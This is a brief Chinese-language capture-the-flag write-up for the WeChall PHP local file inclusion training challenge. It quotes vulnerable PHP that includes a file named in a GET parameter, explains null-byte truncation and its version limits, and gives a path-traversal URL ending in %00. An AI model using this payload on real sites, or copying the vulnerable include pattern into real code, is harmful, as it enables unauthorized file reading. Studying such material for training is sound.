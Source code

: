 PHP - Local File Inclusion  
-------
---PHP本地文件包含漏洞

这里有篇介绍:-[PHP文件包含漏洞总结](http://drops.wooyun.org/tips/3827)

这是题目给出的php代码提示
```php
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
include $filename;
```

在乌云那篇文章中提到：有限制的文件包含
```php
<?php include("inc/" . $_GET['file'] . ".htm"); ?> 
```
可采用%00截断处理，获得.php文件，但有限制：  
* php版本小于5.3.4  
* php的magic_quotes_gpc为OFF状态  

不过对本题没有影响，题目给出php代码已经说明。


另一提示：  
There is a lot of important stuff in ../solution.php, so please include and execute this file for us.  
链接显示为lfi目录下的solution.php链接，但不能直接查看得到。所以得用文件包含得到信息，输入file参数解答题目：  
http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00
